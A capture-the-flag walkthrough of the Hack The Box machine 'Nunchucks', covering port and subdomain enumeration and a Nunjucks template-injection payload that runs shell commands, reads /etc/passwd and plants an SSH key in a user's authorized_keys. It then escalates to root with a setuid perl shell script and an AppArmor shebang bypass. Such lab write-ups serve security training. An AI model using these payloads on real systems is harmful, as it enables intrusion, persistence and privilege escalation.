





# Nunchucks
## Enumeration
- `nmap`
```
└─$ nmap -sC -sV -Pn 10.10.11.122 -T4
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-16 17:10 BST
Nmap scan report for 10.10.11.122 (10.10.11.122)
Host is up (0.13s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 6c:14:6d:bb:74:59:c3:78:2e:48:f5:11:d8:5b:47:21 (RSA)
|   256 a2:f4:2c:42:74:65:a3:7c:26:dd:49:72:23:82:72:71 (ECDSA)
|_  256 e1:8d:44:e7:21:6d:7c:13:2f:ea:3b:83:58:aa:02:b3 (ED25519)
80/tcp  open  http     nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to https://nunchucks.htb/
443/tcp open  ssl/http nginx 1.18.0 (Ubuntu)
|_http-title: Nunchucks - Landing Page
| tls-alpn: 
|_  http/1.1
| ssl-cert: Subject: commonName=nunchucks.htb/organizationName=Nunchucks-Certificates/stateOrProvinceName=Dorset/countryName=UK
| Subject Alternative Name: DNS:localhost, DNS:nunchucks.htb
| Not valid before: 2021-08-30T15:42:24
|_Not valid after:  2031-08-28T15:42:24
|_http-server-header: nginx/1.18.0 (Ubuntu)
| tls-nextprotoneg: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 42.51 seconds
```
- `ffuf`
```
└─$ ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u 'https://nunchucks.htb/' -H 'Host: FUZZ.nunchucks.htb' -fs 30589 -k

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : https://nunchucks.htb/
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt
 :: Header           : Host: FUZZ.nunchucks.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 30589
________________________________________________

[Status: 200, Size: 4029, Words: 1053, Lines: 102, Duration: 387ms]
    * FUZZ: store
```
- Web server




- `gobuster`
```
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u https://nunchucks.htb -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -k --exclude-length 45
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://nunchucks.htb
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] Exclude Length:          45
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/08/16 17:22:31 Starting gobuster in directory enumeration mode
===============================================================
/privacy              (Status: 200) [Size: 19134]
/login                (Status: 200) [Size: 9172]
/terms                (Status: 200) [Size: 17753]
/signup               (Status: 200) [Size: 9488]
/assets               (Status: 301) [Size: 179] [--> /assets/]
/Privacy              (Status: 200) [Size: 19134]
/Login                (Status: 200) [Size: 9172]
/Terms                (Status: 200) [Size: 17753]
/Assets               (Status: 301) [Size: 179] [--> /Assets/]
/Signup               (Status: 200) [Size: 9488]
/SignUp               (Status: 200) [Size: 9488]
```
```
└─$ gobuster dir -u https://store.nunchucks.htb -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -k --exclude-length 45
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://store.nunchucks.htb
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] Exclude Length:          45
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/08/16 17:23:17 Starting gobuster in directory enumeration mode
===============================================================
/assets               (Status: 301) [Size: 179] [--> /assets/]
/Assets               (Status: 301) [Size: 179] [--> /Assets/]
```
## Foothold/User
- If we submit email in `store.nunchucks.htb`, we get a response back from the server with our email in the message
  - Possible `SSTI`
  - https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection


- We can confirm it by entering simple payload `{{7*7}}`


- Google `express` regarding `template engine` it uses
  - https://expressjs.com/en/resources/template-engines.html


- Googling shows the [Sandbox Breakout - A View of the Nunjucks Template Engine](https://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine)
  - We can test the payload from the post: `"{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('cat /etc/passwd')\")()}}"`



- Now let's get `revshell`
  - I couldn't get a `revshell`, so I create `authorized_keys` file in `david`'s `.ssh` directory
    - `{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('mkdir /home/david/.ssh')\")()}}`
    - `{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('echo ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDo+qtyTekC0IbR253hJRsWT9Q+wCFVUEwHS7/VZJEOvePL+oIm2LZp9G1ml3FToU6Qr2MtB83tJU7mMFqcKm3mfVTj+lpJzP+XO4A/xHzLiqhZScv56FM0JaZqz65/Oca4FF4AiNS0gOwJ7vu5sARMYFbb5jsd266eCFvymRLobt3Ujzo5lqcRiLOgZPVCasfHU0vPCNGTaMvDKyklhwSCsMbKjOxuozbwZwJ1ApsCkkx7bx277DGgOI6G/rLYFkc/W/+Y9hxqp4RifUzgu6GACKDIKyAnszWxZHNMT/Iokkcn35Xd5p/ykVgrjLBDQKCxTr4Org/M7L9xhvd19GbH kali@kali > /home/david/.ssh/authorized_keys')\")()}}`
    - `{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('chmod 600 /home/david/.ssh/authorized_keys')\")()}}`



## Root
- We have a `perl` file in `/opt` directory that backups web directories
 
  

  
- It has `POSIX::setuid(0)` to run as `root`
  - Let's check `perl`
  - Since it has to have `SUID` or setuid  `capabilities`

```
david@nunchucks:~$ which perl
/usr/bin/perl
david@nunchucks:~$ getcap /usr/bin/perl
/usr/bin/perl = cap_setuid+ep

```

- Following [GTFOBins](https://gtfobins.github.io/gtfobins/perl/#capabilities) had no success
  - But when I execuite `whoami`, it returns `root`


- If we create a `pl` script and try to execute it

```
#!/usr/bin/perl
use POSIX qw(strftime);
use POSIX qw(setuid);
POSIX::setuid(0);

exec "/bin/sh"
```

- We have `Permission denied` error



- It happened that we have `AppArmor` application which defines access controls to binaries in Linux
  - `/etc/apparmor.d`

```
david@nunchucks:/tmp$ ls -lha /etc/apparmor.d/
total 72K
drwxr-xr-x   7 root root 4.0K Oct 28  2021 .
drwxr-xr-x 125 root root  12K Aug 16 16:07 ..
drwxr-xr-x   4 root root 4.0K Oct 28  2021 abstractions
drwxr-xr-x   2 root root 4.0K Oct 28  2021 disable
drwxr-xr-x   2 root root 4.0K Oct 28  2021 force-complain
drwxr-xr-x   2 root root 4.0K Oct 28  2021 local
-rw-r--r--   1 root root 1.3K May 19  2020 lsb_release
-rw-r--r--   1 root root 1.1K May 19  2020 nvidia_modprobe
-rw-r--r--   1 root root 3.2K Mar 11  2020 sbin.dhclient
drwxr-xr-x   5 root root 4.0K Oct 28  2021 tunables
-rw-r--r--   1 root root 3.2K Feb 25  2020 usr.bin.man
-rw-r--r--   1 root root  442 Sep 26  2021 usr.bin.perl
-rw-r--r--   1 root root  672 Feb 19  2020 usr.sbin.ippusbxd
-rw-r--r--   1 root root 2.0K Jul 22  2021 usr.sbin.mysqld
-rw-r--r--   1 root root 1.6K Feb 11  2020 usr.sbin.rsyslogd
-rw-r--r--   1 root root 1.4K Dec  7  2019 usr.sbin.tcpdump
```
```
david@nunchucks:/tmp$ cat /etc/apparmor.d/usr.bin.perl 
# Last Modified: Tue Aug 31 18:25:30 2021
#include <tunables/global>

/usr/bin/perl {
  #include <abstractions/base>
  #include <abstractions/nameservice>
  #include <abstractions/perl>

  capability setuid,

  deny owner /etc/nsswitch.conf r,
  deny /root/* rwx,
  deny /etc/shadow rwx,

  /usr/bin/id mrix,
  /usr/bin/ls mrix,
  /usr/bin/cat mrix,
  /usr/bin/whoami mrix,
  /opt/backup.pl mrix,
  owner /home/ r,
  owner /home/david/ r,

}
```

- So we can't access `/root/*` and `/etc/shadow`
  - But if we google we have a [way](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/apparmor#apparmor-shebang-bypass) to bypass it 
    - [Shebang bypass](https://bugs.launchpad.net/apparmor/+bug/1911431)
  - `chmod +x test.pl`
  - And simply run `./test.pl`

